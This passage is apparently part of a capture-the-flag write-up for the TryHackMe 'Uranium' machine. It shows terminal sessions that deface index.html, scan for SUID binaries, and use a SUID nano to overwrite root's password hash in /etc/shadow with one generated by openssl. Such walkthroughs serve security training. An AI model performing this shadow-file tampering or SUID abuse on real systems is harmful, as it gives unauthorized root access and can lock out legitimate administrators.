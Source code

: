 ![7](https://user-images.githubusercontent.com/74853138/130370160-6bda4a1e-e8b9-45ba-ab14-d9ce79242162.png)

```
kral4@uranium:/var/www/html$ echo "rootkit" | dd of=index.html 
0+1 records in
0+1 records out
8 bytes copied, 0.000511221 s, 15.6 kB/s


```
let's do another suid scan

```
find / -perm -4000 2>/dev/null
```

after checking our home we found that root send othet mail that our index.html has been hacked

```
------MIME delimiter for sendEmail-953733.034039946
Content-Type: text/plain;
        charset="iso-8859-1"
Content-Transfer-Encoding: 7bit

I think our index page has been hacked again. You know how to fix it, I am giving authorization.

------MIME delimiter for sendEmail-953733.034039946--

```

after checking our home folder we found root give nano suid
```
kral4@uranium:/home/kral4$ ls -lsa
total 384
  4 drwxr-x--- 3 kral4 kral4   4096 Aug 22 21:08 .
  4 drwxr-xr-x 4 root  root    4096 Apr 23 08:50 ..
  0 lrwxrwxrwx 1 root  root       9 Apr 25 11:12 .bash_history -> /dev/null
  4 -rw-r--r-- 1 kral4 kral4    220 Apr  9 21:55 .bash_logout
  4 -rw-r--r-- 1 kral4 kral4   3771 Apr  9 21:55 .bashrc
108 -rwxr-xr-x 1 kral4 kral4 109960 Apr  9 16:35 chat_with_hakanbey
  4 -rw-r--r-- 1 kral4 kral4      5 Aug 22 20:58 .check
  4 drwxrwxr-x 3 kral4 kral4   4096 Apr 10 00:21 .local
244 -rwsrwxrwx 1 root  root  245872 Aug 22 21:08 nano
  4 -rw-r--r-- 1 kral4 kral4    807 Apr  9 21:55 .profile
  4 -rw-rw-r-- 1 kral4 kral4     38 Apr 10 00:21 user_2.txt
```

# Privilege Escalation
since we can use nano as root 
let's amend root password in /etc/shadow

```
root@ubuntu:~/THM/uranum# openssl passwd -6 P@ssword123!
$6$NhJzSgvySv3.BUWi$gtvPvX61JkAu04qldDuEc5lhuGzF4YM3BLOHSTA5Cv8Qa03Ban.c7NU8hZR45dySrLSZ.qoEidlvdY/.AYeJb1
```
```
kral4@uranium:/home/kral4$ ./nano /etc/shadow
```
```
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
  GNU nano 2.9.3                     /etc/shadow                      Modified  

root:$6$NhJzSgvySv3.BUWi$gtvPvX61JkAu04qldDuEc5lhuGzF4YM3BLOHSTA5Cv8Qa03Ban.c7N$
daemon:*:18480:0:99999:7:::
bin:*:18480:0:99999:7:::
```